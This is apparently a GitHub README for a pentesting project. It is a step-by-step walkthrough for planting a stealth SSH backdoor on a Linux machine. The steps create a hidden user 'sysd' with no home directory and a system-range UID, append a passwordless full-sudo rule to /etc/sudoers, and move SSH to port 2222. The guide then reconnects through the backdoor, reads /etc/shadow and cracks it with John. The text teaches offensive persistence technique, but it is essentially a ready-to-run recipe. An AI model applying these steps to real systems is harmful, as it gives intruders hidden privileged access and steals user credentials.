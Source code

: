 # Creating a Back-Door - Owning the System

There are several Pentesting phases, methodologies, or frameworks such as the Mitre and the Cyber kill Chain frameworks. This project focus on the fourth phase of engagement (Maintaining Access) or their equivalents like "Command and Control" for the cyber kill chain or "Persistence" for the Mitre framework.

To obtain this persistence, a backdoor is created using the SSH service. In short, two things need to be accomplished to succeed in this task: Create a user, and set the SSH server.

> NOTE: This walkthrough assumes that the commands are executed as the root user. Otherwise, will be necessary to be a privileged user and to use the sudo command when required.

---

## Three steps are required to accomplish this task:

- Step 1: **Be a shadow** (Create a stealth user).

- Step 2: **Getting ready for a Smooth Sailing** (Set the SSH backdoor connection).

- Step 3: **All aboard** (The Final Test).

---

## Step 1: Be a shadow (Create a stealth user).


To be a "shadow" in the system means to remain as unnoticed as possible. To achieve it, we will create a user with different features next listed.

1. The right user's name.
2. User with no home directory.
2. System user's UID and GID.
4. Grant full sudo privileges to the "shadow user" without the need of a password.
5. Testing

- ### The right user's name

    Use a name that blends with the system, so remain unotice. A name that looks as a process will be the choice in this walkthrough.

    **Username: sysd**

- ### User with no home directory   

    It is easy to look for listed users in a Linux system by quering the /home directory (see the picture). 
    
     ![1](Images/1.PNG)    
    
    A user not listed in the home path will obtain stealth. To create a new user without a folder in the home directory, use the next command:

    `adduser --no-create-home sysd`

    Give your secret user a password

    Press enter on each of the next setting to leave them blank.

    ![2](Images/2.PNG) 

- ### System user's UID and GID

    UID (User Identified), and GID (Group Identifier) are numbers that identify users and groups. Numbers below 1000 are reserved for system processes. The "shadow user" should look like another process, so the following commands will do that.

    `usermod  -u 777 sysd`

    `groupmod -g 777 sysd`

    ![3](Images/3.PNG)

- ### Grant full sudo privileges to the "shadow user" without the need of a password.

    On a Linux system, the sudoers file is the file where the privilege settings exist. Here, sudo access will be configured for the "shadow" user using the following command:

    `echo 'sysd ALL=(ALL:ALL) NOPASSWD:ALL' >> /etc/sudoers`

    ![4](Images/4.PNG)

- ### Testing

    To verify that the "shadow" user has full sudo privileges and is ready to use them without a password, use the following commands:

    Check sysd priviledges:

    `sudo  -lU sysd`

    ![5](Images/5.PNG)

    Switch from current user to sysd user:

    `su sysd`

    ![6](Images/6.PNG)

    To test the current user sudo privileges, we need to revoke any previous sudo privileges stored in the cache. The next command accomplishes this.

    `sudo -k`

    ![7](Images/7.PNG)

    Check if ask for password when accessing the shadow file. This sensitive file holds the passwords' hash of all users in the system. Usually, only a sudo privilege user has access to this file. This user would need to enter a password to gain access. If no password is required, our setting pass the test. 

    `sudo cat /etc/shadow`

    ![8](Images/8.PNG)
    > Note in the image that sysd user is listed in the file with its respective password hash
---

## Step 2: Getting ready for a Smooth Sailing (Set the SSH backdoor connection)

We will use SSH (Secure Shell) to establish a remote connection with the target device. To create this backdoor, we need to set the SSH server configuration file. This file is located in the ssh directory. This directory holds several configuration files such as the SSH client, SSH server, and public and private keys used to encrypt sessions. SSH normally uses port 22. We want to maintain a stealth connection, so we are changing that port to 2222.

- Access and modify the file with nano:

    `nano /etc/ssh/sshd_config`

    ![9](Images/9.PNG)

  - Edit the sshd_config file:

    `Port 2222`

    ![10](Images/10.PNG)

- Save and Exit
    ```
    Press "Ctrl x" keys
    Press "y" key
    Press "enter" key
    ```

- Restart the SSH service to activate the new configuration:

    `sudo systemctl restart ssh`

    ![11](Images/11.PNG)

---

## Step 3: All aboard (The Final Test)

Exiting the target machine, then access it again through the previously created backdoor.

- Exit the target machine

    Enter the exit command and hit enter until exit the target machine

    `exit`

    ![12](Images/12.PNG)
  

- Access the target throught the backdoor (change the ip address for the one of your target machine).

    `ssh sysd@192.168.200.105 -p 2222`

     ![13](Images/13.PNG)

- Use sudo to switch to the root user:

    `sudo -s`

    ![14](Images/14.PNG)

---

# Enjoy yourselve (THE END ?)


A backdoor has been created. Now that persistence (Command and Control or Maintaining Access) has been accomplished, it is time to move to the next step of the killer chain (Actions on Objective) or to the last stage of engagement (Covering your tracks).

Example:
Use John to crack the entire /etc/shadow file:

`john /etc/shadow`

![15](Images/15.PNG)